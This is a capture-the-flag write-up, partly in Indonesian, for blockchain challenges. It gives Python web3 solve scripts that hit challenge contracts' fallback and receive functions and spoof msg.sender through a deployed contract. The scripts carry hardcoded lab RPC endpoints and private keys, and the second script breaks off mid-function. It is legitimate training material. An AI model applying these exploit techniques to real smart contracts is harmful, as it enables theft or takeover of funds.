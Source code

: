 solve script

```python
from web3 import Web3
from web3 import HTTPProvider
from web3.contract import Contract
from solcx import compile_source

rpc_url = "http://159.65.94.38:31404/"
privkey = "0xdd15d05a28bb222fdf30bbfbe9ad1af0f1dd6129b9a723d2958b88085a6dbd7b"
my_address = "0x0BEBcc3eA7FAc126346E26346C92e024CbDbC69A"
target_contract_addr = "0x850Ef42049f51717236359f1e4E6c9f12F366AE9"
setup_contract_addr = "0xC667B07512Cc80fC7e8fC2A405a9E7193473d2d0"

def get_abi(file):
    source = open(file).read()
    compile = compile_source(source, output_values=['abi'])
    return compile.popitem()[1]['abi']

target_abi = get_abi("ShootingArea.sol")

w3 = Web3(HTTPProvider(rpc_url))
w3.eth.default_account = w3.eth.account.from_key(privkey).address

target_contract = w3.eth.contract(target_contract_addr, abi=target_abi)

# call fallback
a = w3.eth.send_transaction({'to': target_contract_addr, 'from': my_address, 'data': "0x61455567"})
print(a)

# call receive
a = w3.eth.send_transaction({'to': target_contract_addr, 'from': my_address})
print(a)

# call function
a = target_contract.functions.third().transact()
print(a)

# check if thirdShot is equal to true
a = target_contract.functions.thirdShot().call()
print(a)
```

# The Art of Deception - Blockchain
Untuk challenge ini kita diperlukan untuk mendeploy contract ke server untuk meniput contract utama dan mengendalikan msg.sender

Solve script:
```python
from web3 import Web3
from web3 import HTTPProvider
from web3.contract import Contract
from solcx import compile_source

rpc_url = "http://139.59.176.230:32651/"
privkey = "0x38389ca50c55cb28566247692b8a2fc0de1d0c1d858f1e050a744ddae62fdafb"
my_address = "0x7791b3027c416bA59AABB63E5Fc904af884f4719"
target_contract_addr = "0xf6b9AE7ed67c4744b4bce815FDF67C733Ddd7e62"
setup_contract_addr = "0xADeD374aFd24c6e0339a12BeA2BaE46A3872990a"
w3 = Web3(HTTPProvider(rpc_url))

def compile(file):
    source = open(file).read()
    compile = compile_source(source, output_values=['abi', 'bin'])
```